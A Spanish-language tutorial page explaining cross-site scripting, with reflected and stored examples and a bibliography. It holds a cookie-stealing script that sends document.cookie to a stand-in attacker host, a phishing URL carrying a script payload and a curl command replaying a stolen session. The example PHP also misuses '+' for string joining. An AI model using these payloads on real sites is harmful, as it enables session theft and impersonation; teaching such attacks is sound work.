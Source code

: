 [Volver al inicio](../Readme.md)
# XSS (Cross-Site Scripting)
## Introducción.
El ataque XSS consiste en inyectar codigo Javascript malicioso en un sitio web vulnerable, de forma que al ser cargado por un usuario víctima, se ejecute en su navegador dicho código malicioso, con el objetivo de extraer información de la víctima, como por ejemplo, la cookie de sessión. Existen básicamente tres tipos de ataques (sin tener en cuenta los ataques XSS ciegos):
## Tipos de XSS
### XSS Reflejados
Este tipo de ataque se aprovecha de una deficiente o nula sanitización de los parametros de entrada, procedentes por ejemplo, de un formulario HTML del sitio web.

![XSS reflejado](_images/xss_reflejado.jpg)

Imaginemos un sitio web que tiene el siguiente código HTML para buscar un producto:
```html
<!DOCTYPE html>
<html>
<head>
    <title>Web XSS</title>
</head>
<body>
    <h2>Busca un producto</h2>
    <form action="xss1.php" method="GET">
        <label for="id_producto">Producto (ID):</label>
        <input type="text" id="id_producto" name="id_producto" required>
        <button type="submit">Enviar</button>
    </form>
</body>
</html>
 ```

 Y el código PHP del lado del servidor que recibe los datos del usuario:
 ```php
 <!DOCTYPE html>
<html>
<head>
    <title>Lector XSS</title>
</head>
<body>

<?php
// Crear conexión
$conn = new mysqli($servername, $username, $password, $database);

// Verificar la conexión
if ($conn->connect_error) {
    die("Error de conexión: " . $conn->connect_error);
}

// Verificar si se proporcionó el parámetro "id_producto" en la URL
if(isset($_GET['id_producto'])) {
    
    /* Aquí realizaría la búsqueda en la base de datos*/

    if ($result->num_rows > 0) {
        // El producto existe en la base de datos
        echo "Realiza alguna acción";
    } else {
        // El producto NO existe en la base de datos
        echo "El producto con el ID " + $_GET['id_producto'] + " no existe en la base de datos.";
    }
} else {
    // Si el parámetro "id_producto" no se proporcionó en la URL
    echo "Debe proporcionar un identificador de producto.";
}

// Cerrar conexión
$conn->close();
?>

</body>
</html>
```

 En el código PHP (que no está sanitizado), observamos que, en caso de que no exista el producto, muestra un mensaje al cliente en el que añade el id del producto buscado. En este caso, si un atacante integra un script malicioso en el campo de búsqueda del producto, dicho script se verá **REFLEJADO** en la respuesta HTML que se envía al cliente y será ejecutado en su navegador.

 Imagina ahora que el script que envía el atacante es el siguiente:

 ```html
 <script>
    var cookies = document.cookie;

    var xhr = new XMLHttpRequest();
    xhr.open('POST', 'https://attackerSite.com/store_cookies.php', true);
    xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    xhr.send('cookies=' + encodeURIComponent(cookies));
</script>
 ```
Este script, envia por POST la cookie de sesión a un sitio web controlado por el atacante, por lo que si un atacante consigue que una víctima ejecute dicho script, estará recibiendo la sesión de la víctima en su sitio malicioso y podrá impersonarla.

Un enlace que podría recibir la víctima a través de un phishing se parecería a la siguiente:

```
http://sitioweblegitimo.com/xss1.php?id_producto=<script>código malicioso</script>
```

Posteriormente, el atacante, previo estudio del funcionamiento del sitio web que pretende atacar y conociendo las peticiones que utiliza el sitio web, puede intentar acciones maliciosas utilizando las cookies robadas:

```
curl -X GET https://sitioweblegitimo.com/protected-page.php -H "Cookie: PHPSESSID=SESSION_ID_ROBADA"

```


!!! ACLARACIÓN:

En este ejemplo, la página web vulnerable utiliza el paso de parámetros mediante GET, lo que facilita el ataque, en caso de utilizar **POST**, no se puede engañar a la víctima mediante un enlace, ya que el método POST no permite enviar los parámetros en forma de enlace.

En este caso la opción puede ser engañar a la víctima para que se conecte a una página web controlada por el atacante y forzarla a ejecutar el script que permita obtener la cookie de sesión.
Una idea puede ser, enviar el payload al servidor que tiene la vulnerabilidad XSS reflejada, la respuesta será la página devuelta por el servidor a la que se le ha añadido el script malicioso. Esta página infectada se aloja en un servidor del atacante y se fuerza por phishing a que la ejecute la víctima. Si se consigue, la víctima estará enviando la cookie al atacante.

Esta forma de atacar, en realidad, sería una suplantación de la página web original más que un XSS reflejado.

### XSS almacenados
En este tipo de vulnerabilidad, el atacante aplica el payload sobre un elemento del sitio web que se almacenará en la base de datos, por ejemplo, podemos pensar en una página web que contiene un blog, en la que por cada noticia, se permiten comentarios de los usuarios y estos se almacenan en la base de datos. Así pues, si un atacante inyecta un payload en uno de los comentarios, cada vez que un usuario acceda al blog y cargue la página que contiene el comentario infectado, estará ejecutando indirectamente el payload subido por el atacante. 

![Proceso ataque XSS almacenado](_images/xss_almacenado.jpg)

### DOM XSS
## Bibliografía
- Cross-site scripting. PortSwigger. https://portswigger.net/web-security/cross-site-scripting#what-is-cross-site-scripting-xss
- DOM Based XSS. OWASP. https://owasp.org/www-community/attacks/DOM_Based_XSS
- DOM-based XSS. PortSwigger. https://portswigger.net/web-security/cross-site-scripting/dom-based
- el-brujo. (29/09/2021). XSS o Cross‑Site Scripting: tipos de ataque y prevención. elhacker.net. https://blog.elhacker.net/2021/09/xss-o-crosssite-scripting-tipos-de-ataque-y-prevencion.html
- García de Zúñiga, F. (19/10/2022). Ataque XSS: qué es y cómo evitarlo. ARSYS. https://www.arsys.es/blog/ataques-xss-que-son-y-como-evitarlos#Como_evitar_un_ataque_XSS
- García de Zúñiga, F. (24/08/2022). CSP: Content Security Policy. ARSYS. https://www.arsys.es/blog/csp-content-security-policy
- axarnet. (s.f.). Qué es el Cross Site Scripting (XSS) y cómo evitarlo. https://axarnet.es/blog/cross-site-scripting-xss#
- Lázaro, D. (2018). Ataques XSS: Cross-Site Scripting en PHP. https://diego.com.es/ataques-xss-cross-site-scripting-en-php